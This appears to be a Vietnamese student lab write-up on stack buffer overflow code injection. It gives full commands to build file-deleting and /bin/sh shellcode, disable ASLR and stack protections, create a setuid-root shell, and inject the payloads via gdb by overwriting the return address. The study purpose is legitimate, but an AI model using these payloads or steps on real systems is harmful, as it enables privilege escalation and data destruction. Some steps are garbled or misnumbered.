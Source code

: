 Lab 2:\
chạy docker:\
`docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab`
# Inject code to delete file: file_del.asm is given on github

## chú ý lớn!!!
- bài lab1: file_del.asm chú ý tới các dữ liệu \x0a và \x00
- bài lab2: ctf.c không cần lấy quyền shell mà cần truy cập vào và chạy được hàm `myfunc`

Ý tưởng:

-   Program injected: file_del.o được biên dịch từ file_del.asm
    
-   Đối tượng bị chèn vào: vuln.c

Các bước:

1. Dịch mã máy từ file_del.asm thành file_del.o\
    `nasm -g -f elf file_del.asm `\
 ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcQIVWHD1iadEHZep9K55e_2ob3jPBDXtqATQvb2qYfaehaLJTSHs5a559M3ou6fiOHEsKmc6uHWB5tCYEX2KMpToq_9tXAv-cxStpYBDMPx3IIIezR5eGXcBnO3N3sBblCRcEaAfaMxKcXvaIU2hL0fgY?key=x066aHYoH5XtbJjV6Ng-LQ)

2. Link file_del.out với lệnh file_del\
`ld -m elf_i386 -o file_del file_del.o `\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe3OoBdDkJp7idolhrmbYqguAbCsucW-GmHHkZTe7K612tfmLV4TcLGM9eU9VmJvhigM5Is-yV1iPp2QqhUUA96KnBvI157uJHKOeWYpOZCPYhGqKFnYaR3qMZJ4BoCFRs3tJ3TnzWya98PaqG3p9GkbRg?key=x066aHYoH5XtbJjV6Ng-LQ)\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXegracxlM1zwXtsRKM-UvdedDnAFX7Rr0_y1f9hk69cyo_QVk_ABSouIeEUqBqqnBYj2XhFaAFa4INaItF92kdju1VYlmu7LCYn0S939wzsQUQInbKMfzjNC4U5voC61pBVK89nIfzHdLzBcs4MsHKcHF-_?key=x066aHYoH5XtbJjV6Ng-LQ)
    
3. Disassem chương trình file_del  
`objdump -d file_del `\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdTjMDyYv459ARkFwM9iVfszV8aeJE3pogQ5IPYlufXx9Gf1qQDDftJlwaLM5yJiLbRZYtzNP-EaMvejM5RU950YWJxdHmzckZM0Q7UdjbeUO2Bi92d8AULobsOv6Re5rWjZQ6TGi7CHwxng5A7CPMoBDY?key=x066aHYoH5XtbJjV6Ng-LQ)
    
4. dịch chương trình file_del từ hợp ngữ thành mã máy  
`for i in $(objdump -d file_del | grep "^ " | cut -f2);do echo -n '\x'$i; done; echo`![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfYe2o8lL9kwg5bMXu5xrWoTK0nbyTZOfOgPZHnBrPs2UN3J3_hDuEBJ146ykJ9eTJakeoCwk09ebR_U4ZLgwJ3JPdjFAYH_G1EI_5crtOycEp9wxnL6cMFy4aNGHSWCuqsJ1KoJ2WO386-E3fueU9RqM8?key=x066aHYoH5XtbJjV6Ng-LQ)  
Kết quả cho ra là: `\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\xdummyfile.`
    
5.  Dịch chương trình đối tượng: vuln.c thành vuln.o  
`gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack`\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeZ9ABA_1KiObJj2QUfm6Hy0BQ6SDoLV799XuttVum_Da6bMdiU-LALTjo86pyipoozIXO9kPrxy60iQeC3Cgvy3fMbLJoKTqHTQkVKQ-L-p4m1uOSpWZWKsFD3TXLvw8g_HO84sy0dn-HW8zux31lIarNM?key=x066aHYoH5XtbJjV6Ng-LQ)
    
6.  aaa  
`sudo ln -sf /bin/zsh /bin/sh`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcB9mQh9boKp_0s3id9x_TNV91mrWeBvm6giv1E19Y358fttoRP8wzQybKpKhyhgKIYMp7qvA1d4rit8dM15g8Pukrfs161es2HPhcYO24Ka3RPjyUkDUYNkSfwkMsmW-Q4Q3vfiRSq8y4c6zZp1K3O3uI1?key=x066aHYoH5XtbJjV6Ng-LQ)  
    (Password: dees)
    
7.  Debug chương trình đối tượng vuln.out  
`gdb -q vuln.out`\
(P/s: -q Quite: không bla bla, chạy thẳng vào chương trình debug. Demo below:)
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeOZuT-Y-D8xTgQBQrJQ-cXwgbygc-iFygnB75Z1qQvpNNsWYlA_cbCPUhAbX7PMiuf34GHBlieU_948BYMNjBZbKzS_XNbEvlTZUNh6iJVLnE04B8F1UvrRExk2Bvgja6DkTl9IBmWBL211usvNf_1ASzY?key=x066aHYoH5XtbJjV6Ng-LQ)
    
8.  Disassemble hàm main để đặt breakpoint trước và sau khi chạy lệnh strcpy\
`disas main`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfAvMCRd8vadEfkSaTVBCoZ342_LVShHjvyN91qksvL1yJGLZRjfWF2PXPEQ4ILy76HmtYIUSIQ0EmAJTOixGPRBfFIElYRTQk4VF_rpz2j251MbyQL6IYW2QkJul-Ybz9pmK_T8UoSAVexqbN5cS_TUh4?key=x066aHYoH5XtbJjV6Ng-LQ)
1.  Đặt breakpoint tại vị trí 1 và 2 theo hình trên:  
    Lý do:
    - Sau khi chương trình đã hoàn thành khởi tạo stack: push ebp vào stack, lưu esp = ebp, push biến khởi tạo (char buf[64]) vào trong stack (0x40 là 64 byte ở dạng thập lục)  
    - Sau khi hoàn thành lệnh strcpy và đã giải phóng ebp và trở về return address (‘ra’)  
    Bằng lệnh:\
    `b *0x08048441`\
    `b *0x0804846b`\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXddHftwjaIAomnUfTJbftN778zpVZ7UGwCBSxIZfyjFhr-LKIfp3OEiALnL301NVmJmIO82_EB7UizAap2boWu8ceWCdBSGEN9tXU2jAEWXiRYtNhE0ThPofS5SUFLy6taM1zBIhgCsYpNWHdlTSIpyn7vm?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Extra: Kiểm tra breakpoint bằng `info breakpoint` và xoá breakpoint bằng lệnh `del [số thứ tự của breakpoint]`
    
2.    Chạy debug chương trình vuln.out với giá trị đầu vào của argv[]  
 `r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65' + 'a' * 23 + '\xff\xff\xff\xff')")`\
Giải thích: r Run chương trình python [...]\
`print(“[chương trình file_del ở dạng mã máy] + ‘a’ 23 lần + [giá trị ngẫu nhiên]”)`\
Giải thích về ‘a’ 23 lần:\
Stack của hàm main()\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfd6JeOXapIP7aCfbg4igVY2MpOmVbFiGD7LE8d4SOo7c3pcZr84dJY9nzmbaxlUOg_ynd7RZJXJUmQOmIWjK_YLcXVz2CvDR7t_2sfwvOA22EvF64c-C6ajoD3lT5KJThR2UrEzAa23sbQ3OkBLGn8eNR6?key=x066aHYoH5XtbJjV6Ng-LQ)\
    Ảnh chi tiết từ buf đến ‘ra’ của stack main  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeCyYQ75GmFBipRzNUaydXbMvXR8RN4B3hlsIOJsqMyJ9E0GRhn_o2I2Fu9bsYjiKrOjE7BapKD7w4yiTk0N6_4oy5dhPgO1g1CkGy55vfiJXW6l45u_7nhjPkQm--p5a3xnUkSR0Kk6spOttI8a59PVv4z?key=x066aHYoH5XtbJjV6Ng-LQ)\
    biến buf có dung lượng là 64 bytes, chúng ta cần ‘tiêm’ chèn vào trong biến mất 45 bytes nghĩa là buf còn lại 19 byte và chúng ta cần fill hết 19 byte đó bằng ký tự ‘a’  
    Phía dưới của biến buf là ebp (base pointer aka frame pointer/ extended base pointer) có dung lượng là 4 bytes và chúng ta cũng cần fill với 4 ký tự ‘a’\  
    Đến ‘ra’ cũng có dung lượng là 4 bytes và đó là nơi chúng ta lưu vị trí của chương trình file_del cũng là địa chỉ của con trỏ esp (extended stack pointer) (sau khi hoàn thành stack thì con trỏ esp luôn ở trên cùng của stack nghĩa là ở trên của biến cuối cùng được thêm vào)  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeHTpass1StoowTLUFxMn5xafGO36vV_wkI_SVay1hUVfVpCTx_V-cVMbZ26_gO8vpIVfkfMjgM9MwBwRbBBkC2pQpa53TZMHgLaDskrvPZbu1qMdySVA9GMuBuWGwRJjwnYSXMUxrsPD5k7C7Cixcq1V3G?key=x066aHYoH5XtbJjV6Ng-LQ)  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdDv9Eu7I5ni-Qh99r9_2cDX1SA5yUocwOZ-_t8aoHKVIQLW4280dUStXPoZ5PMc8_wSDFxeFsh5VZBnCwcYdbCNhfn3D0x7nSxG6Qyo81BGRsyeU_3-J1QrR8r9HHupKCC1-tih8KqefnydkyBma1sC4t9?key=x066aHYoH5XtbJjV6Ng-LQ)\
1.    Xuất 80 bytes từ con trỏ esp\
`x/80xb $esp`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdSCmk5Hs5I3KhndgTpi8Diiw9MUqPooEtUFEmbJKUg1Yyww2TGvfHu2B0zfreqNlEI30t3P1tXPthdHfvxojq8aiFJ22GvszBolgGJBU7KN4KJ0BqYpTA193aX93xVwLuYfx4BEHPrAnQImnjegUJ8-xF4?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Giải thích: Tại sao lại là 80 bytes\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcQPYE671s2lYTm_FHnyDs6ZXezisSA_vVuGfHwpt8IW1VgBDZiKtSvEX5bEpEegM0qnaMouMNDjwx7jgo8XtibTHEPY7Ls2olWQZ9qTJnlYrnVn-5-PLEcLmUXgY2I5SRxf5lF2W1A9WtKvsLoppU9OflW?key=x066aHYoH5XtbJjV6Ng-LQ)\
    Stack của hàm main gồm argv[] 4 bytes, argc 4 byte, ‘ra’ 4 bytes, ebp 4 bytes, buf 64 bytes. Tổng là 4 + 4 + 4 + 4 + 64 = 80 bytes  
    Nghĩa là stack của hàm main có 80 bytes và con trỏ esp ở trên cùng của stack. Từ đó xuất 80 bytes từ con trỏ esp nghĩa là xuất hết các giá trị trong stack\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe4ou9j0EvlDEoy84oX1NZkeSuU2MBEtUCOl1vg8LqEfihixKp4_0GDtnzdJLH_OQg0Oym1_zjIu_yhFIpurQWk0zrA_3gtYpVI11DBxzDAKh6eL1bhgHDsshPRGePL8zZV3RVAi2mEJxurr6OW3VZp168J?key=x066aHYoH5XtbJjV6Ng-LQ)\
1.    Chèn vị trí của esp (phía trên buf để chạy chương trình được chèn ở đầu buf) vào ‘ra’ để chương trình khi kết thúc stack sẽ chạy buf  
    *** Nhớ là set sau khi chương trình đã được chèn sau khi lệnh strcpy đã được thực thi nhá!\
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXf1JUcca3oVFNhL4CKPK7T6KwycCIwyRycYLkaKNHFoNmyegmElOxY1fm6zTzDYQG7z3eJobQkiSEhX34c4iw0xxhatSKXEtDGoWlGui_NRSWTWZJDTI82civeUI3K1b0ulrCWC8O8vmddHbr78nq6Abtg?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Done

# Conduct attack on ctf.c

 1.  Chuẩn bị môi trường để tấn công:  
    Tắt cấp phát địa chỉ stack ngẫu nhiên để dễ kiểm soát địa chỉ stack:mặc định là 2  
    `sudo sysctl -w kernel.randomize_va_space=0`\
    Tạo symbolic link tới zsh thay vì sh (default) để tránh bị ngăn chặn root từ Ubuntu  
    `sudo ln -sf /bin/zsh /bin/sh`
 2.  Biên dịch chương trình sh.asm thành sh.o rồi link thành sh để thực thi  
    `nasm -g -f elf sh.asm` -> tạo ra file sh.o\
    `ld -m elf_i386 -o sh sh.o` -> tạo ra file sh
 3.  sh là chương trình lấy quyền điều khiển của chương trình. Khi thực thi .sh sẽ xuất hiện shell ký hiệu là ‘$’ nghĩa là quyền thực thi chương trình của user seed (user hiện tại) chứ k phải quyền điều khiển root (administrator của window)\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdjWDrbmUojSXG2gSFc_rOfuPSMlVR6J-T80CbvtVILtQ3U-fxuyBjXYnqG_FNX7byv269EYQgmxAe6QTZyjUqK-yf4tCax4QDkrdiN1encz7Tqpj7D6UevY-qv0HDlgWU8IXM6jVLC8WkZ30eVN-1gL5M?key=x066aHYoH5XtbJjV6Ng-LQ)\
    Để *leo thang đặc quyền* cho chương trình sh có quyền của root ta thực hiện các thao tác sau.
 4.  Chuyển quyền sở hữu của file sh cho root 
    `sudo chown root sh`\
    (P/s: password là dees)\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdWMukUtYhNT4Nn661GgLPqcigp1s7Bbl5_WM920XBqHtfKfuKXbaiyFAE_fAKKsfBP9Abj3YaqLTGHYCIy3YvMGS2d_SSrkF0UZTvfwoEn2LlZiAWECLowpefRIbp0IfSMqAwqThSnL0CPiPDkQPpGkoDu?key=x066aHYoH5XtbJjV6Ng-LQ)\
    1.  Thay đổi quyền truy cập của file sh thành 4755  
   `sudo chmod 4755 sh`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfJ0xaiH5bGbpyg07UphikAeWl0stG2k-9bG1U8quXxBxmz5FOihtScQjqhwNzm95eP6DRKyUwFG4gF7UpDjW44kE9qxlre2vUHd-gjUZut4oRm1EHugLl7WgIRz_BH6EZMVyI9vPyl0uElMdn2nksGbAG0?key=x066aHYoH5XtbJjV6Ng-LQ)  
    [Giải thích:      
    ](https://www.youtube.com/watch?v=lNEa855uipg)chmod Change mod  
    4 là chạy với quyền thực thi của owner thay vì là user, ở đây là quyền của root thay vì là của seed\
    7 là các quyền của owner: rwx là read write execute\
    5 là các quyền của group owner: r-x là read and execute\
    5 là các quyền của other user: r–x là read execute\
 1.  Sau đó chạy chương trình sh bằng `./sh`    
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfeLt4eWpp9H-LUhnnVA9go06SZWerG_iH10Z2sJEGlFkWDNSgK041MPHRCCoxLAaifCS3mXN5T419Pbfpy0Vce3KjPeXYZH9I0TbOFp0aczjgMvJ8eprFwn3UN9WxT33aLL64JD21d1bOtOYSfCvp0utDh?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Dấu # sẽ hiện ra nghĩa là đang thực thi shell ở quyền root thay vì $ của user  
    Thoát bằng lệnh exit    
 1.  Biên dịch chương trình đối tượng ctf.c thành ctg.out với tắt các cơ chế bảo vệ để có thể tấn công:  
`gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack`
 1.  Rã chương trình sh thành opcode  
`for i in $(objdump -d sh | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo`\
    Kết quả cho ra:\
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80  `\
    size: 27 bytes  
Debug chương trình ctf.out  
    `gdb -q ./ctf.out`  
Sau đó rã hàm vuln và tìm vị trí của chương trình trước khi chạy strcpy và sau khi đã khởi tạo stack\
    `disas vuln`\
    Tạo breakpoint tại các điểm trước và sau khi strcpy\
    `b *0x080485b3`\
    `b *0x080485c5`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe3i-Kb3Y6-4mdXDGx_SJBT4PeH2fjs8nbhCqYEfdS06sCekFfN1HC2pTVyUU_Q24H_MLbficsmxVcdUaFNy_uVWNSdNqcx0JZZ8Wr9BYaMaSlFJrsg_GvaOrhqsV2M9Ks15lxsDcgqIbWDBP2tge9C8yNq?key=x066aHYoH5XtbJjV6Ng-LQ)
 1. Chạy debug chương trình\
`r $(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80' + 'a' * 77 + '\xff\xff\xff\xff')")`\
Trong lần đầu chạy thì chương trình sẽ dùng ở breakpoint
1. Dùng lệnh `x/108xb $esp` để xuất 108 bytes kể từ địa chỉ của con trỏ esp.\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdpuCT8PuyM6RgJHGoMm2Ct18_9HdO0kOFmKmWKnIuyRYaQVE9m7_lchyRN6qapxW9u49QFAilQDM8bS5AVjsL8XTgyQDNXK02C3xYqzbRUiZ_0yYKDClUet9JxbQGRoCkX37_xfoRG8-Jek8CVg1ApOy9Z?key=x066aHYoH5XtbJjV6Ng-LQ)\
Tiếp tục chương trình bằng lệnh `continue` để đến breakpoint 2.\
Dùng lệnh `x/108xb $esp` để xuất 108 bytes kể từ địa chỉ của con trỏ esp.
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXca0HqNLeIUkPjoaxLj4-ARRXDTrdT-ybpOfs6D2-jn8vwyzymxjDfWs-HwCy4oHCDsrsJyGRRPEBGDB2M5vExdvCH4o4ekCpqY3SrVXVjqdNV6RELQHhZPorSLVgO3J044UsbSfwovPrd6VN1RGB31Yih0?key=x066aHYoH5XtbJjV6Ng-LQ)\
Chương trình sh đã được chèn thành công vào trong buf[100] của chương trình ctf.out\
Chúng ta cần thay đổi địa chỉ của 'ra' thành địa chỉ của esp là địa chỉ xuất phát của chương trình được tiêm vào.\
`set *0xffffd6e0 = $esp`\
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfGOnFEzJ_1UQhRK4IywOlc59rBKJbLnrcqXipIsoAiBdUP2XlVqtWruwgJsHRWmzlB9p6LBBhIuh-qPR6JJY2YnZ6uLhCXIssncTiyR8gDYA0qBCAXeVVuebCc2za7lb3G9TkmsuOLSlWeh0cXSB3mc-kA?key=x066aHYoH5XtbJjV6Ng-LQ)\
*Giải thích: vì sao lại là 0xffffd6e0*\
*Vì tại địa chỉ bắt đầu của 'ra'*